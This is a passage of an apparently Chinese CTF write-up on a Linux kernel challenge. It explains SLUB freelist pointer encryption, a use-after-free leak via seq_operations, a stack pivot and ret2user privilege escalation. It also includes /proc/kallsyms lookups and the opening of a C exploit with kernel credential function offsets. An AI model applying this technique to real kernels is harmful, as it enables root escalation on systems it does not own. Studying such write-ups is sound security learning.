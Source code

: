 经过测试，对于分配到的内存p，覆盖 *((void *)p+0x10)内存处的加密数据会崩溃，并且正常释放后查看内存可以看到 *((void *)p+0x10)处多了加密数据，所以这里保存next指针的offset应该是0x10

> [slub堆溢出的利用 - 安全客，安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/259280#h3-3)
>
> ![img](https://p0.ssl.qhimg.com/t012252dbbadd29e3d1.png)
>
> 按照带师傅的文章其加密逻辑应该为`随机数 ^ next ^ &next = data`，但是我通过调试阅读`_kmalloc`分配内存时汇编代码发现在本题中加密方式为`随机数 ^ next ^ bswap(&next) = data`
>
> ![](https://i.loli.net/2021/11/23/3VIibZgjw8MJhYD.png)
>
> 可能由于内核的更新，在加密指针的时候除了将两个地址与随机数异或以外还增加了一个字节倒转的操作，这让上述文章中泄露随机数和对象地址的方法失效

所以不能通过UAF直接实现任意地址分配，可以将0x20大小的对象放入freelist后打开一个proc文件，此时创建seq_operations结构体从freelist分配对象，利用uaf泄露seq_operations结构体中的指针，再通过修改seq_operations结构体中的指针从而栈迁移，再ret2user进行提权

> seq_operations结构体的利用方法
>
> [kernel pwn入门之路（一） - X1ng's Blog](https://x1ng.top/2020/12/22/kernel-pwn入门之路-一/)

在可以控制seq_operations结构体时泄露地址，计算偏移时发现`head /proc/kallsyms`找到的地址是从0开始的，找到`0xffffffffXXXXXXXX`式的地址来计算偏移

```
cat /proc/kallsyms | grep "startup_64"
cat /proc/kallsyms | grep "prepare_kernel_cred"
cat /proc/kallsyms | grep "commit_creds"
```

找到gadget算出地址，写rop链提权

需要注意的是rsp需要0xN0或0xN8对齐，所以在找`xchg eax, esp;`这一gadget时需要找地址对齐的gadget

exp：

```c
#include <stdio.h> 

#include <pthread.h> 

#include <unistd.h> 

#include <stdlib.h> 

#include <sys/ioctl.h> 

#include <sys/types.h> 

#include <sys/stat.h> 

#include <sys/wait.h>

#include <fcntl.h> 

#include <signal.h>

#include <stdint.h>

#include <sys/mman.h>

#include <sys/prctl.h>


#define KERNCALL __attribute__((regparm(3))) 


void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xc91d0;
void (*commit_creds)(void*) KERNCALL = (void*) 0xc8d40;
```
